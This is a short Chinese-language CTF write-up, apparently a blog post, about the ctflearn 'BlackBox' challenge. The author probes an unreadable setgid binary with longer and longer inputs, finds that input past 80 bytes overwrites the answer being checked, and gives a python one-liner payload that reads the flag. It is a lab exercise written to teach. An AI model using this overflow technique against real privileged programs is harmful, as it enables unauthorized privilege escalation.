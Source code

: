 ```yaml
---
layout: post
title: BlackBox
categories: writeups
tags: misc
ctfsite: ctflearn.com
challenge_url: https://ctflearn.com/problems/393
challenge_url_comment: 需要注册登录
---
```


登录到服务器后，看一下目录，发现既没有源代码，二进制程序也没有读取的权限，只有执行权限：

{% highlight text %}
total 36
drwxr-xr-x  2 root root         4096 Oct  9  2017 .
drwxr-xr-x 12 root root         4096 Oct 24 11:46 ..
-r--r--r--  1 root root          220 Aug 31  2015 .bash_logout
-r--r--r--  1 root root         3771 Aug 31  2015 .bashrc
---x--s--x  1 root blackbox_pwn 8936 Jan 31 17:16 blackbox
-r--r--r--  1 root root            0 Sep 18  2017 .cloud-locale-test.skip
-r--r-----  1 root blackbox_pwn   33 Oct  9  2017 flag.txt
-r--r--r--  1 root root          655 May 16  2017 .profile
{% endhighlight %}

{% include writeup_begin.html %}

运行一下 `blackbox`，程序要求输入 1 + 1 等于几。尝试输入 2：

{% highlight text %}
blackbox@ubuntu-512mb-nyc3-01:~$ ./blackbox
What is 1 + 1 = 2
No dummy... 1 + 1 != 0...
{% endhighlight %}

随后发现不论输入什么数，程序都只输出 `No dummy... 1 + 1 != 0...`。鉴于没什么可以做的，只能尝试把输入的字符串变长。直到字符串长度超过 80 个字节后，程序的输出发生了变化：

{% highlight text %}
blackbox@ubuntu-512mb-nyc3-01:~$ ./blackbox
What is 1 + 1 = 1111111111111111111111111111111111111111111111111111111111111111111111111111111111111
No dummy... 1 + 1 != 825307441...
{% endhighlight %}

计算器转换一下 `825307441`，发现正好为 `0x31313131`，即我们的字符串溢出覆盖了待检查的结果。慢慢尝试缩短字符串，发现从 第 81 个字节开始就会覆盖答案。因此执行：

`python -c "print '11111111111111111111111111111111111111111111111111111111111111111111111111111111\x02\x00\x00\x00'" | ./blackbox`

就可以得到 flag 了。

{% include writeup_end.html %}
